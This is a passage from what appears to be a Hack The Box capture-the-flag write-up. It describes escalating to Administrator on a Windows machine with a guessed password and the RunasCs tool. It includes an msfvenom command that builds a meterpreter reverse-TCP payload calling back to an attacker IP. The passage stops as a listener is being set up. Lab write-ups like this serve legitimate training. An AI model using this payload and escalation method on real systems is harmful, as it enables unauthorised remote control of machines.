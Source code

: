 The password we found might be the Administrator's password.

### Finding a Way to Break Through

Since we've obtained the Administrator's password (albeit through a guess), we can attempt to escalate our privileges using common Windows privilege escalation techniques. One such method involves utilizing the built-in `runas` command in Windows, which is somewhat equivalent to the `sudo` command in Linux, allowing us to run processes with elevated privileges.

To know more:

{% embed url="https://juggernaut-sec.com/runas/" %}

In this scenario, I will utilize the RunasCs tool, an improved version of the default Windows runas.exe program.

{% embed url="https://github.com/antonioCoco/RunasCs" %}

You can download the latest version of RunasCs from here: [https://github.com/antonioCoco/RunasCs/releases](https://github.com/antonioCoco/RunasCs/releases)

Our objective is to leverage the RunasCs tool to execute a reverse shell as Administrator, utilizing the password we discovered.

### Generating the Second Reverse Shell

We can employ the same reverse shell that we've previously uploaded to the target machine. However, I've created a new reverse shell on a different port to ensure that the previous session remains undisturbed for backup.

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<HTB_TUN_IP/Attacker_IP> LPORT=4445 -f exe >> rev2.exe
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Untitled 48.png" alt=""><figcaption></figcaption></figure>

### Setting up the Second Listener

Now, set up the second listener in another terminal within msfconsole.
